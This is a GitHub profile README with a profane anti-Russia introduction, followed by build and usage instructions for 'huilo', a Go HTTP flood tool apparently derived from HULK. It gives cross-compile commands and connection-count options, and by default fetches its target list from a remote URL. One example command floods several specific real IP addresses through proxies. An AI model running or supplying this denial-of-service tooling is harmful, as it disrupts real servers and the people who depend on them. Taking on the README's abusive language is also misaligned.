- 👋 Hi, I’m @russian-boat-fuck-you
- 👀 I’m interested in fuck Putin's diplomacy
- 🌱 I’m currently learning yoha and dzen
- 💞️ I’m looking to collaborate on fuck russian boat to have a peace overall the world!
- 📫 How to reach me: I will found you when need

<!---
russian-boat-fuck-you/russian-boat-fuck-you is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

### (c) The initial idea is coming from https://github.com/grafov/hulk

#### Build an executable binary
    go build huilo.go

For raspberry PI 4 32-bit OS

    GO111MODULE=on CGO_ENABLED=0 GOOS=linux GOARCH=arm GOARM=7 go build  -trimpath -ldflags "-s -w -extldflags '-static'" -installsuffix cgo -tags netgo huilo.go
    
#### Usage
    ./huilo --help
    Usage of huilo:
        -t, --max-routines int      Maximum number of simultaneous connections (default 500)
        -r, --refresh duration      Screen refresh interval in seconds (default 3s)
        -s, --site site-url         Sites list. Can be used multiple times. Have precedence over sites-url if set site-url
        -u, --sites-url sites-url   URL to fetch sites list from sites-url  (default "https://hutin-puy.nadom.app/sites.json")
              
    http_proxy=10.2.3.4:5678 https_proxy=10.2.3.5:5679 socks5_proxy=10.2.3.6:5680 ./huilo --max-routines 1000 --site http://178.248.237.238 --site http://185.170.2.62 -s https://185.170.2.62 -s http://195.208.109.88 --site https://195.208.109.88
